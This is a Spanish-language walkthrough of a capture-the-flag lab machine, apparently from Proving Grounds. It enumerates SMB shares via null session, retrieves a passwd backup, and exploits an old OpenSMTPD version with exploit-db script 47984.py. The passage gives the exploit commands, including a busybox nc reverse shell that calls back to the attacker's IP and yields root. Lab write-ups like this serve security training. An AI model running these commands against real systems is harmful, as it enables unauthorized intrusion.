Comenzamos escaneando los puertos abiertos de la máquina objetivo con nmap.

``sudo nmap 192.168.122.71 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts 5000``



Ojo, puertos 22, 25, 80 y 445 abiertos. A priori, utilizando los well-known ports podemos pensar en SSH, SMTP, HTTP y SMB (SAMBA para Linux). No obstante, para asegurarnos, vamos a pasarle estos puertos abiertos a nmap para que nos diga con más exactitud qué servicios y versiones están corriendo. 

``nmap 192.168.122.71 -sCV -p22,25,80,445 -oN target ``



Confirmamos que la distribución de puertos abiertos y servicios corresponde con lo que pensábamos.

Vamos a intentar ver qué se está compartiendo a través de SMB. Como no tenemos credenciales, haremos uso de null session.

``smbclient -L //192.168.122.71 -N``



Muy interesante. No sólo podemos acceder, sino que además vemos un directorio "backups".

Sabiendo que existe este directorio (con nombre bastante interesante) y que podemos acceder con null session, vamos a inspeccionar desde más cerca accediendo por SMB a este directorio:

``smbclient //192.168.122.71/backups -N``



Ojo lo que tenemos aquí. 

Nos lo traemos a máquina atacante para ver su contenido.

``get passwd.bak``



Si miramos su contenido, es el /etc/passwd de la máquina víctima:



De aquí podemos extraer los nombres de usuario que existen a nivel de sistema.

Vamos a generar un diccionario de usuarios -> users.txt:
- `neil`
- `_smtpd`
- `_smtpq`

PARÓN.

Dado que no se encontraba acceso a la máquina de ninguna forma, me vi obligado a volver sobre mis pasos en la enumeración.

Si revisamos bien el output de nmap, vemos que la versión de OpenSMTPD es la 2.0.0. Lo cual es algo bastante bajo.

Si buscamos en exploit.db/serachsploit por openSMTPD, encontramos:



Ojo, nos aparecen diferentes RCE muy interesantes.  

Después de hacer pruebas con varios, encontramos uno que funciona: 47984.py



Para comprobar si tenemos RCE, lo primero que haremos será ping+tcpdump.

Interfaz tun0 -> VPN de ProvingGrounds

Protocolo -> icmp (para ver si nos llegan los pings)

- Lanzamos tcpdump:

``sudo tcpdump -i tun0 icmp``



- Hacemos uso del exploit 47984.py y nos lanzamos un ping.

``python3 47984.py 192.168.122.71 25 'ping -c 1 192.168.45.194``



- Revisamos tcpdump:



Bingo. Nos ha llegado.

Vamos a repetir el proceso, pero en vez de lanzarnos un ping será una reverse shell.

Lo primero es ponernos a la escucha:

``nc -nvlp 80``

Para la reverse shell vamos a hacer uso de una que viene muy bien para estos casos, busybox:



Lanzamos:

``python3 47984.py 192.168.122.71 25 "busybox nc 192.168.45.194 80 -e s``



Si revisamos nuestro listener:



Estamos dentro de la máquina víctima y como root.
